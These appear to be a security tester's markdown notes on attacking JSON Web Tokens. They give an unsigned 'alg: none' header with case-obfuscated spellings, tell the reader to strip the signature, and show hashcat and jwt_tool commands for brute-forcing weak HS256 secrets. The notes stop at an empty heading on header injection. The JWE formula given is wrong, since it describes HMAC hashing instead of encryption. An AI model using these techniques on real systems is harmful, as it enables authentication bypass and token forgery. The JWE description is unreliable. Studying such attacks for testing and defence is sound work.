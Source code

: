 
## JWT format:

`headers.payload.signature`

![[jwt_jwt-format.png]]

when the payload changes the signature is also altered accordingly 


## JWT vs JWS vs JWE

Three of 'em are almost similar, "JWT" almost always mean a "JWS" token
JWEs are very similar, except that the actual contents of the token are encrypted rather than just encoded.


JWT / JWS --> `base64(header) . base64(payload) . HMACSHA256( base64UrlEncode(header) + "." + base64UrlEncode(payload), <secretkey>)`


JWE --> `base64(header) . HMACSHA256( payload ) .  HMACSHA256( base64UrlEncode(header) + "." + base64UrlEncode(payload), <secretkey>)`


## Burp extension --> JWT Editor

[youtube.vid](https://youtu.be/nKmvKZHwf4s)


## Tokens with null signature (unsecured JWT)



```
HEADER
{ 
"alg": "NONE", 
"typ": "JWT" 
}

```
Obfuscating 

```
"alg": "none"
"alg": "NONE"
"Alg": "None"
"AlG": "nOnE"
"AlG": "NoNe"
```

PS: ==remove signature== part after changing algo to none

[ctf-writeup](https://blog.pentesteracademy.com/hacking-jwt-tokens-the-none-algorithm-67c14bb15771)

[hacker.recipe](https://www.thehacker.recipes/web/inputs/jwt)


## Brute-forcing weak secret keys


Some signing algorithms, such as HS256 (HMAC + SHA-256), use an arbitrary, standalone string as the secret key. These could easily be cracked by using the Old-fashion dictionary attack!

Using hashcat:

` hashcat -a 0 -m 16500 jwt_token secrets.list.txt --force `


Using jwt_tool"
` python3 jwt_tool.py <jwt_token.txt> -C -d secrets.list.txt `


[jwt.secrets.list](https://github.com/wallarm/jwt-secrets/blob/master/jwt.secrets.list)


## JWT header parameter injections
